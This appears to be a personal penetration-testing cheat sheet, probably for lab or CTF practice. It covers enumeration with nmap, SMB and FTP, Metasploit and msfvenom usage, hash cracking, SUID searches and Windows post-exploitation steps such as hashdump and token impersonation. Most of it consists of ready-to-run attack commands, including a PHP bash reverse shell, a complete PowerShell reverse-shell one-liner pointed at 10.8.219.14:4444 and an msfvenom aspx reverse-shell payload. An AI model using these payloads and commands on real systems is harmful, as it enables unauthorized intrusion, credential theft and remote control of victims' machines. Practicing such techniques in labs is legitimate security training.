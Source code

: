 # OSINT

### NMAP
As an alternative you can use `rustscan -a <address>`
Normal scan: `nmap -vv -sV -Pn -A -T4 --script vuln <address>`
Long scan: `nmap -sV -Pn -A -T4 -p- <address>`
Enumerate SMB: `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <address>`

### Enumerate SMB
`smbmap -H <address>`
Check discovered directories in other places such as websites.
`smbclient -L <address> -U`
List all the directories in the share

### Enumerate FTP: 21
`ftp <address>`
Anonymous login: anonymous (no password required)

#### nmap
`nmap --script ftp-* -p 21 <address>`

#### Download all files
`wget -m ftp://anonymous:anonymous@<address>`
`wget -m --no-passive ftp://anonymous:anonymous@<address>`

#### Brute Force
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

### Enumerate HTTP
`gobuster dirb --url=<address> --wordlist=<wordlist>`

### Metasploit
open `msfconsole`
`search <exploit name>`
`use <discovered id>`
`show options` set the required options for the exploit
`exploit` or `run`
you can then hold on to the shell once it has been achieved by putting it into the background `Ctrl-Z`

#### Msfvenom
There are two types of payloads that can be generated, staged and stageless. Staged means you need msfconsole to complete the shell, used for limited upload space.
Staged, denoted by '/': windows/shell/reverse_tcp
Stageless, denoted by '_': windows/shell_reverse_tcp

To search for payloads: `msfvenom -l payloads | grep windows`
When setting up: `msfvenom -p payload --list-options`

encoders:
	windows: `-a x86 --encoder x86/shikata_ga_nai -f exe -o <filename>.exe`

IIS Example: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.219.14 --platform windows -a x64 -f aspx -o shell.aspx`

#### Upgrade shell to Meterpreter

##### Option 1
search for shell_to_meterpreter use and set session to the session number of the session that needs upgrading

##### Option 2
`sessions -u <id>`

## Exploitation

### Windows Binary Locations
`/usr/share/windows-resources/`

### Reverse Shells
#### PHP
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/1234 0>&1'");
?>
```

### Cracking Passwords
First search for hash via Search-the-hash `sth -t <hash>` or `sth -f <file>`
If not found you can use `john` or `hashcat`
Example hashcat (use `--help` for more guidance):
`hashcat -m <type of hash> -a <cracking type> <hash>:<salt> <wordlist> --show`
Note: must use `--show` to actually see the cracked password...

## Post-Exploitation

### Check Services and Ports
Running Ports: `ss -natu`
Forwarding ports through ssh: `ssh -L <local port>:<remote address>:<remote port> <username>@<address>`

### Python
#### Reverse Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Simple HTTP Server
If you need to get a file over to a compromised server with curl installed:
`python3 -m http.server`

### Shell
#### SUID search
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null`

If you find a binary that matches this, you can try running with the `-p` flag which allows you to run a binary as the owner.

#### Find writable directories
`find -type d -writable`

### MetaSploit
#### Catching a Reverse Shell
generate the reverse shell in msfvenon
`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`

#### Windows Migration
get a meterpreter session and find a process running as SYSTEM: `ps`
safest choice is to choose `services.exe`
`migrate <process id>`

#### Windows Passwords
within meterpreter session: `hashdump`

#### Using Powershell
`load powershell` then `powershell_shell`

#### Windows Token Exploitation
powershell `whoami /priv`
msf `load incognito`
`list_tokens -g` then `impersonate_token <name of token>`

## Tools
A series of a userful links:
- [Nishang](https://github.com/samratashok/nishang.git): A series of useful Windows Exploit scripts
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Same as above

## Misc
Reuse a command from history `history | grep <parameter>`, `!!<choice>`

### Powershell Reverse Shell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.219.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Starting SMB Server
Navigate to folder to share

`python3 /usr/share/doc/impacket-scripts/examples/smbserver.py SHARE .`

### Powershell

- Search for command with name: `Get-Command *search_parameter*`
- Get all Parameters for a command: `(Get-Command Command).Parameters`
- Search for a file: `Get-ChildItem -Path C:\ -Include *title* -File -Recurse -ErrorAction SilentlyContinue`
- Search for files containing string: `Get-ChildItem C:\* -Recurse | Select-String -pattern search_string`
- Get list of running processes: `Get-Process`
